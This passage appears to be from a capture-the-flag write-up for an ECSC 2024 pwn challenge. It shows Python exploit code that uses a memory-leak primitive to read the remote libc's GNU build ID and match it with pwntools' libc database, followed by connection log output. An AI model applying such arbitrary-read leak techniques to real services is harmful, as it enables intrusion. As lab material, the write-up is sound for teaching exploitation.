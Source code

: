 ### Identifying remote libc

If it was the case, that the remote challenge uses a different version of `libc`
we'd still be able to extract the necessary information to attack it. Namely, we
do this by writing an address to be leaked using `create_custom_card_prompt()`,
and then dereferencing it via `show_custom_card_answer()` (an index for it is
obtained through a straightforward calculation):

```python
    ...
    def connect(self):
        ...
        self._prompt_counter = 0

    def leak_via_answer_by_addr(self, addr):
        index = (addr - self.addr_stack_answers) // 8
        return self.show_custom_card_answer(index)

    def leak_address(self, addr):
        self.create_custom_card_prompt(b'AAAAAAAA', addr)
        base = self.addr_stack_prompts + self._prompt_counter * 16
        self._prompt_counter += 1
        assert self.leak_via_answer_by_addr(base+0) == b'AAAAAAAA\n'
        return self.leak_via_answer_by_addr(base+8)

...

# .note.gnu.build-id
addr_section_build_id = chall.libc.address + 0x380
if chall.leak_address(addr_section_build_id + 0xc) == b'GNU':
    build_id = chall.leak_address(addr_section_build_id + 0x10)[:20]
    if len(build_id) < 20:
        raise NotImplementedError('Build ID is too short, probably wrong offset')
    build_id = enhex(build_id)
else:
    raise NotImplementedError('Build ID not found at the expected offset')

libc_path = libcdb.search_by_build_id(build_id, unstrip=False)
if not libc_path:
    raise NotImplementedError(f'No matching libc for build ID {build_id} found')

chall.libc_path = libc_path
chall.reconnect_and_resetup()
```

```sh
[*] Leaking Build ID of the remote libc...
[*] Using cached data from '$HOME/.cache/.pwntools-cache-3.10/libcdb/build_id/69389d485a9793dbe873f0ea2c93e02efaa9aa3d'
[+] Found a matching libc.
[*] Closed connection to linecrosser.challs.open.ecsc2024.it port 38002
[+] Opening connection to linecrosser.challs.open.ecsc2024.it on port 38002: Done
...
```
